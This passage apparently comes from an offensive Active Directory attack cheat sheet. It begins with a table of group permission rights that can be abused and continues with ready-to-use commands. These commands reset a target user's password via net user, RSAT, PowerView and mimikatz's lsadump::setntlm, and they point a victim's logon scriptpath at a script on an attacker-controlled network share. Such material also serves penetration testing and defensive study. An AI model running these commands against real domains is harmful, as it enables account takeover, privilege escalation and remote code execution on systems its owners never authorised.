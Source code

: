 | Group | `GenericWrite` (`RIGHT_GENERIC_WRITE`) <br/><br/> The associated `Rights-GUID` should normally be undefined (if retrieved using PowerView) or equal to `00000000-0000-0000-0000-000000000000` | Ability to update any non-protected object (almost) all attributes and notably the member attribute, thus allowing oneself to add others security principals to the group. <br/><br/> Equivalent to: `RIGHT_READ_CONTROL` \| `RIGHT_DS_WRITE_PROPERTY` (on all properties) \| `RIGHT_DS_WRITE_PROPERTY_EXTENDED`. |
| Group | `WriteProperty` (`RIGHT_DS_WRITE_PROPERTY`) to `all properties` <br/><br/> `Rights-GUID` undefined (if retrieved using `PowerView`) or equal to `00000000-0000-0000-0000-000000000000` | Similar to the `GenericWrite` rights. |
| Group | `Self` `All validated write` or `Self-Membership` (`RIGHT_DS_WRITE_PROPERTY_EXTENDED`). <br/><br/> `All validated write`: `Rights-GUID` undefined (if retrieved using `PowerView`) or equal to `00000000-0000-0000-0000-000000000000`. <br/><br/> `Self-Membership`'s `Rights-GUID`: `bf9679c0-0de6-11d0-a285-00aa003049e2`. | Ability to update any non-protected group members by adding/removing one's own account to the group. |
| Group | `WriteOwner` (`RIGHT_WRITE_OWNER`). | Ability to change the owner of the group, thus granting complete control over the group and notably the ability to add others security objects to the group. |
| Group | `WriteDacl` (`RIGHT_WRITE_DAC`). | Ability to change the `DACL` of the group, thus granting complete control over the group and notably the ability to add others security objects to the group. |
| Group | `WriteProperty` (`RIGHT_DS_WRITE_PROPERTY`) to the `Member` attribute. <br/><br/> `Member`'s `Rights-GUID`: `bf9679c0-0de6-11d0-a285-00aa003049e2`. | Ability to update any non-protected group members, thus allowing to add others security principals to the group. |

###### User - GenericAll / ExtendedRight's ForceChangePassword / AllExtendedRights

The `net user` built-in utility, `RSAT`'s `Set-ADAccountPassword` /
`PowerView`'s `Set-DomainUserPassword` PowerShell cmdlets, and `mimikatz`'s
`lsadump::setntlm` function can be used to reset a vulnerable user's password:

```bash
# net user will only allow password reset if a GenericAll ACE is exploited.
net user <USERNAME> <PASSWORD> /domain

Set-ADAccountPassword -Identity <SamAccountName | DistinguishedName | SID | GUID> -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "<PASSWORD>" -Force)
Set-ADAccountPassword -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "<PASSWORD>" -Force)

$UserPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
Set-DomainUserPassword -Identity <SamAccountName | DistinguishedName | SID | GUID> -AccountPassword $UserPassword
Set-DomainUserPassword -Domain <DOMAIN> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -AccountPassword $UserPassword

mimikatz # privilege::debug
mimikatz # lsadump::setntlm /server:<DC_FQDN | HOSTNAME> /user:<USERNAME> [/password:<PASSWORD> | /ntlm:<NT_HASH>]
```

###### User - GenericWrite / Write-Property to all attributes or to the Script-Path attribute

The `RSAT`'s `Set-ADObject` and `PowerView`'s `Set-DomainObject` PowerShell
cmdlets can be used to modify the properties of a security object.

```bash
Set-ADObject -Identity <SamAccountName | DistinguishedName | SID | GUID> [-Add / -Replace] @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
Set-ADObject -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> [-Add / -Replace] @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}

Set-DomainObject -Identity <SamAccountName | DistinguishedName | SID | GUID> -Set @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
Set-DomainObject -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredentials> -Identity <SamAccountName | DistinguishedName | SID | GUID> -Set @{scriptpath="\\<IP>\<SHARE>\<SCRIPT>"}
```
